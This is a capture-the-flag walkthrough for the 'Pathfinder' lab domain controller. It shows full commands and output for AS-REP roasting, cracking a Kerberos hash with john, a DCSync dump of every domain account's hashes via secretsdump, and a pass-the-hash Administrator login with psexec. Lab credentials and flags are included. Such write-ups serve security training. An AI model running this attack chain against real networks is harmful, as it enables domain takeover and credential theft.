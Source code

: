 # Starting Point - Pathfinder

## Enumeration

```
PORT      STATE SERVICE       REASON  VERSION                                                                                                                                     
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2021-01-04 22:00:22Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack Microsoft Windows RPC
49676/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc         syn-ack Microsoft Windows RPC
49683/tcp open  msrpc         syn-ack Microsoft Windows RPC
49698/tcp open  msrpc         syn-ack Microsoft Windows RPC
49718/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: PATHFINDER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

There are many ports open! Port 88 is typically associated with Kerberos and port 389 with LDAP, which indicates that this is a Domain Controller. 

## Preparation
Using the credentials we obtained in a previous machine; `sandra:Password1234!`, we can attempt to enumerate Active Directory. We can achieve this using BloodHound. There is a python bloodhound ingester. It can be installed using pip: `pip install bloodhound`

Then run
```
python3 -m bloodhound -d megacorp.local -u sandra -p 'Password1234' -gc pathfinder.megacorp.local -c all -ns 10.10.10.30
```
This will store several json files in the current directory, which will later be imported into Bloodhound.

The next step is to install `neo4j`, which is an open source graph database.
```
$ sudo apt install neo4j
$ sudo neo4j console
```
Afterwards go to `localhost:7474`, connect to the database with the credentials `neoj4:neo4j` and change the password.

The last step is to install bloodhound. BloodHound is an application developed with one purpose: to find relationships within an Active Directory (AD) domain to discover attack paths.

Run it with:

```
sudo bloodhound --no-sandbox
```

It will open a GUI and will ask you for your database credentials, which you have set up when configuring neo4j.

Then, upload all the json files into Bloodhound.

## Analysis 

Bloodhound offeres several Pre-Built Analysis queries

![](pics/bloodhound-analysis.png)

Choosing the "FInd Principles with DCSync Rights", we can see that the svc_bes has GetChangesAll privileges to the domain. This means that the account has the ability to request replication data from the domain controller, and gain sensitive information such as user hashes.

![](pics/bloodhound_output.png)

## Exploitation

It's worth checking if Kerberos pre-authentication has been disabled for this account, which means it is vulnerable to ASREPRoasting. We can check this using a tool such as Impacket's GetNPUsers.

```
$ python3 GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30
Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc_bes
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:d71a0a828dafb52440d7161c2a46d29c$7eaf00d192586f0c3aa80e8ae980e7e6428c71df4fde76885a5da8aa39cf4a21b0ed392d15a22147d50b3bed445a655de8b3aebe5cd7ecb07a94faad74ed5000c14ec727d5e932ac30cf9fc634ee62d1340088f3cac2c944617c502a7845334cccb9f73129b03e4ca2c7caa95d05475e33ad467bc2faa440976b56484b6ecfa053dce6ce430bceb3517ac5a68a5139eea944bf83581c04a9be9b154a480461b5cfff2e87bb9a322262d3a48116eba863a77ad8da1497a6b1aa353e66fdfce21af5db3a5e972f95516ddce0b05c287338258ed73c4b1cef7dde5fd02b7e750cb7e745a1707e11b4e636a04fdc896586db
```

We obtain the TGT ticket for the `svc_bes` and save it to a file called hash. Now we have to crack it with a tool e.g `john`

```
$ sudo john hash -w=/usr/share/wordlists/rockyou.txt       
[sudo] password for ctf: 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Press 'q' or Ctrl-C to abort, almost any other key for status
Sheffield19      ($krb5asrep$23$svc_bes@MEGACORP.LOCAL)
1g 0:00:00:26 DONE (2021-01-04 15:23) 0.03743g/s 396967p/s 396967c/s 396967C/s Sheffwed1..Sheethead?
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

It is now possible to access the server as svc_bes using WinRM, and gain user.txt (password: Sheffield19)

```
evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19
```

The user.txt is located on svc_bes's Desktop: `b05fb166688a8603d970c6d033f637f1`

## Privilege Escalation
In order to leverage the GetChangesAll permission, we can use Impacket's secretsdump.py to perform a DCSync attack and dump the NTLM hashes of all domain users.

```
$ python3 secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30                                                                         
Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f9f700dbf7b492969aac5943dab22ff3:::
svc_bes:1104:aad3b435b51404eeaad3b435b51404ee:0d1ce37b8c9e5cf4dbd20f5b88d5baca:::
sandra:1105:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
PATHFINDER$:1000:aad3b435b51404eeaad3b435b51404ee:4daaf43d62196be359323e580d7d1a22:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:056bbaf3be0f9a291fe9d18d1e3fa9e6e4aff65ef2785c3fdc4f6472534d614f
Administrator:aes128-cts-hmac-sha1-96:5235da455da08703cc108293d2b3fa1b
Administrator:des-cbc-md5:f1c89e75a42cd0fb
krbtgt:aes256-cts-hmac-sha1-96:d6560366b08e11fa4a342ccd3fea07e69d852f927537430945d9a0ef78f7dd5d
krbtgt:aes128-cts-hmac-sha1-96:02abd84373491e3d4655e7210beb65ce
krbtgt:des-cbc-md5:d0f8d0c86ee9d997
svc_bes:aes256-cts-hmac-sha1-96:2712a119403ab640d89f5d0ee6ecafb449c21bc290ad7d46a0756d1009849238
svc_bes:aes128-cts-hmac-sha1-96:7d671ab13aa8f3dbd9f4d8e652928ca0
svc_bes:des-cbc-md5:1cc16e37ef8940b5
sandra:aes256-cts-hmac-sha1-96:2ddacc98eedadf24c2839fa3bac97432072cfac0fc432cfba9980408c929d810
sandra:aes128-cts-hmac-sha1-96:c399018a1369958d0f5b242e5eb72e44
sandra:des-cbc-md5:23988f7a9d679d37
PATHFINDER$:aes256-cts-hmac-sha1-96:9746728aa86c802b483aa9304887a8b60e5f5d5895bfd1c182dbaa5f684226f3
PATHFINDER$:aes128-cts-hmac-sha1-96:a45fe07f2fc61fbebafce78f73a97644
PATHFINDER$:des-cbc-md5:e364941fc7ef5dd3
[*] Cleaning up... 
```

Using the default domain administrator NTLM hash, we can use this in a PTH attack to gain elevated access to the system. For this, we can use Impacket's psexec.py.

```
psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
```

And we are root! Now we can obtain the root.txt which is located in C:\Users\Administrator\Desktop: `ee613b2d048303e5fd4ac6647d944645`
